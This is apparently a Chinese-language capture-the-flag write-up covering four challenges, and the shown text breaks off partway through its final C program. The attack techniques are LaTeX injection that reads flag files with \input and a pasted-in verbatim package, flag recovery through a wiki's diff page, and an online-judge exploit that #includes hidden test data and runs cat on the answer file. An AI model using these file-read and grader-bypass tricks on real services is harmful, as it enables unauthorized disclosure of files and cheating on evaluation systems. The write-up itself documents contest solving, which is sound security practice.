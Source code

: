 ## 猜数字

经典技巧，猜 NaN 即可。（不过需要手动发请求，因为网页上写死了要猜的数，不是根据输入来的）

## LaTeX 机器人

第一问：`\input{/flag1}`。

第二问，可以搜索到有一个 `\verbatiminput` 命令，但是需要 `verbatim` 这个宏包。虽然不能 `\usepackage`，但是可以把他的内容全部粘进来。

```latex
$$ \makeatletter
这里放 verbatim.sty 的内容，记得删掉行末的 %
\makeatother
\verbatiminput{/flag2} $$
```

## Flag 的痕迹

看到题目说“赶紧改好”，本来想枚举版本号（http://202.38.93.111:15004/doku.php?id=start&rev=时间戳），但是都枚举到了一天前都没有。

后来看到这个页面：http://202.38.93.111:15004/doku.php?id=start&do=diff，于是就直接拿到了 flag，并且也解释了为什么没枚举出来。。

## 安全的在线测评

第一问可以直接把答案文件读出来然后输出，然后看到 flag 才发现，原来预期解大概是通过 `#include "../data/static.out"` 直接读出来。

第二问大概只能用编译器读文件了，经过一番搜索，发现可以在内嵌汇编里面使用 `.incbin` 直接把原始的 binary 嵌进文件，于是就可以做了。

```c
#include<stdio.h>
#include<string.h>
#include<unistd.h>

unsigned _st=
#include "../data/static.in"
,_d0=
#include "../data/dynamic0.in"
,_d1=
#include "../data/dynamic1.in"
,_d2=
#include "../data/dynamic2.in"
,_d3=
#include "../data/dynamic3.in"
,_d4=
#include "../data/dynamic4.in"
;

int main(){
    char b[1000];
    unsigned a=0;
    scanf("%s",b);
    int len=strlen(b);
    for(int i=0;i<len;i++)a=a*10+(b[i]-48);
    int cas;
    if(a==_st){
        const char*v[10]={"/bin/cat","./data/static.out",NULL},*e[1]={NULL};
        execve(v[0],v,e);
    }else{
        if(a==_d0)cas=0;
        if(a==_d1)cas=1;
        if(a==_d2)cas=2;
        if(a==_d3)cas=3;
        if(a==_d4)cas=4;
    }
```